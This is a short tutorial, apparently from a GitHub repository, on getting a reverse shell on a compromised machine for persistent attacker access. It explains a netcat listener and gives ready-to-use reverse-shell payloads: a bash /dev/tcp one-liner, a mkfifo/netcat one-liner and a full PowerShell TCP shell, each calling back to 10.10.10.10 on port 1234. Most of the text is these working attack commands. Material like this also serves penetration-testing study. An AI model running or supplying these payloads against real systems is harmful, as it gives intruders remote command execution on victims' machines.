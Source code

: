 # Why get a shell?

Once you have a system comprised, you dont want to have to configureand execute the same exploit to return to the system. Using networking protocols like ssh for Linux or WinRm for windows can get you a command line interface for an ip, but you will need credentials for that. Finding a service running on a system that is vunerable to opening shells can leave the attacker with a convenient point of entry back the to target.


# Reverse Shell
If you find a system that us vulnerable to remote code execution, you execute commands on the target machine to connect back to your machine. On your machine you use netcat to listen on a port, then on the target machine you execute a payload for a windows shell or linux shell

Commands to run on your machine:

``` bash 

nc -lvnp <port-number> 
```

-l stands for listen, v is for verbose so netcat will print outpur updating us on the state of the connection, n blocks DNS resolution so our machine doesnt try to connect to a DNS server and translate the incoming ip to a domain name and waste time, and p allows you to specify a port.

payloads to run on target machine:

linux shells:
``` bash

	bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

or

``` bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

```

windows shell:

``` powershell

	powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

```


